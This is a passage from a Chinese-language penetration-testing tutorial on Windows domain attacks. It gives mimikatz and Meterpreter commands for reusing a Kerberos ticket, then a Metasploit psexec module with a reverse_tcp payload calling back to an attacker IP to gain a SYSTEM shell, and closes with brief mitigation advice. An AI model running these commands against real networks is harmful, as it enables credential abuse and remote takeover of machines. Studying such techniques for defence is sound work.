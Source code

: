 但是MSF是不支持bin文件的导入，因此需要先对其进行转换，在mimikatz中：

```powershell
kerberos::clist "xxxx.bin" /export
```

随后在拿到的Meterpreter中：

```powershell
load kiwi
kerberos_ticket_use xxxx.kirbi
```

随后将该Meterpreter切换到后台，执行：

```powershell
use exploit/windows/local/current_user_psexec
set TECHNIQUE PSH
set RHOSTS Win-2K5J2NT2O7P.pentest.com
set payload windows/meterpreter/reverse_tcp
set LHOST 172.16.86.135
set session 1
run
```

这样就可以拿到一个新的Meterpreter并且具有`NT AUTHORITY\SYSTEM`权限。

#### 防范建议

* 安装对应补丁
* 对域内账户进行控制，禁止弱口令，及时、定期修改密码
* 在服务器上安装杀毒软件，更新病毒库

